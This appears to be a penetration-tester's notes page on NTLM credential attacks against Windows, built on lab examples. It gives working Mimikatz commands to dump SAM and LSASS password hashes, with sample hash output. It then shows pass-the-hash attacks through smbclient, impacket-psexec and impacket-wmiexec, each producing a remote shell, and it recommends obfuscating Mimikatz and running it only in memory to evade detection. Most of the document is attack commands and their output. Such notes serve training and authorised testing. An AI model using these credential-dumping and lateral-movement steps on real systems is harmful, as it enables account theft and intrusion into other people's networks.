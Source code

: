 ```yaml
---
description: >-
  New Technology LAN Manager is a replacement of LAN Manager used to store users
  password hashes in Windows.
---
```


# NTLM Toolkit

Credentials are stored when a user logs into an account & when a user runs a service. More information below.

## Security Account Manager (SAM)

Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_

## Local Security Authority Subystem (LSASS).

LSA stands for **Local Security Authority** and it is a special process which is responsible for authenticating users and verifying Windows logins.

## Mimikatz

_<mark style="color:red;">**NOTE:**</mark>_ When running Mimikatz it's very important use proper obfuscation techniques since it's heavily signatures. Running it entirely in memory and never saving it on Disk is a good approach.

We can use various commands to extract passwords from the system.

For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.

### **LSA memory content**

```powershell
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv
reg save hklm\system system.hiv
./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
```

### sekurls&#x61;**::logonpasswords**

**sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.

### l**sadump::sam**

**lsadump::sam** extracts NTLM hashes from SAM. NOTE: we must **token::elevate** to elevate to SYSTEM user privileges. We need local administrator privileges.

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```



## Passing NTLM - &#x70;_&#x61;ss-the-hash_ (PtH)&#x20;

Depending on situation, we may be able to leverage an NTLM hash without cracking it.

Suppose we are trying to access a share on \\\192.168.246.212\\. We are entering the necessary permissions to access the share.

<figure><img src="../../.gitbook/assets/Screenshot_20231018_220241.png" alt=""><figcaption></figcaption></figure>



Like everything else we need local Administrator on the machine to enable code execution.

### Obtaining Hashes - Mimikatz

```shell-session
# privilege::debug

# token::elevate

# lsadump::sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

### SMBClient - Access Share

```shell-session
kali@kali$ smbclient \\\\192.168.236.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Wed Oct 18 17:54:13 2023
  secrets.txt                         A       16  Thu Sep  1 12:23:32 2022

                4554239 blocks of size 4096. 1602361 blocks available
smb: \> 

```



### Impacket Psexec

We can use Impacket to get a shell. The format is "LMHash:NTHash". We'll give **32 0's for LM**.

```shell-session
kali@kali$ impacket-psexec -hashes 0000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.236.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.236.212.....
[*] Found writable share ADMIN$
[*] Uploading file dZntBvns.exe
[*] Opening SVCManager on 192.168.236.212.....
[*] Creating service AKvb on 192.168.236.212.....
[*] Starting service AKvb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

### Impacket Wmiexec

Like psexec we can use wmiexec to obtain a shell.

```shell-session
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

_<mark style="color:red;">**NOTE:**</mark>_ The difference between Psexec & WmiExec is that Psexec works over SMB while WmiExec uses Windows Management Instrumentation.
